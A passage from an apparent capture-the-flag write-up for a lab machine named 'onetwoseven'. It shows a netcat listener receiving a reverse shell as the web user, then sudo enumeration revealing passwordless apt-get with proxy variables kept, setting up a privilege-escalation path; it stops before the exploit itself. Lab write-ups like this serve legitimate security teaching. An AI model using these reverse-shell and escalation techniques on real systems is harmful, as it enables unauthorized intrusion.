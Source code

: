     root@kali# nc -lnvp 443
    Ncat: Version 7.70 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.133.
    Ncat: Connection from 10.10.10.133:41336.
    bash: cannot set terminal process group (1352): Inappropriate ioctl for device
    bash: no job control in this shell
    www-admin-data@onetwoseven:/var/www.md-admin/addons$



## Shell as root

### Enumeration

`sudo -l` gives an interesting result:



    www-admin-data@onetwoseven:/var/www.md-admin/addons$ sudo -l
    Matching Defaults entries for www-admin-data on onetwoseven:
        env_reset, env_keep+="ftp_proxy http_proxy https_proxy no_proxy",
        mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

    User www-admin-data may run the following commands on onetwoseven:
        (ALL : ALL) NOPASSWD: /usr/bin/apt-get update, /usr/bin/apt-get upgrade



I can run `apt-get update` and `apt-get upgrade` as root. Not only that,
but `env_keep` says what when I use `sudo` to run these, the
`http_proxy` and `https_proxy` values from my current session will be
kept.

Enumerating `apt` a bit further, I'll check the sources. The
`sources.list` file looks like the normal one for the distribution,
providing three repos to contact:



    www-admin-data@onetwoseven:/etc/apt$ cat sources.list
    #

    # deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free

    #deb cdrom:[devuan_ascii_2.0.0_amd64_netinst]/ ascii main non-free

    deb http://de.deb.devuan.org/merged ascii main
    # deb-src http://de.deb.devuan.org/merged ascii main

    deb http://de.deb.devuan.org/merged ascii-security main
    # deb-src http://de.deb.devuan.org/merged ascii-security main
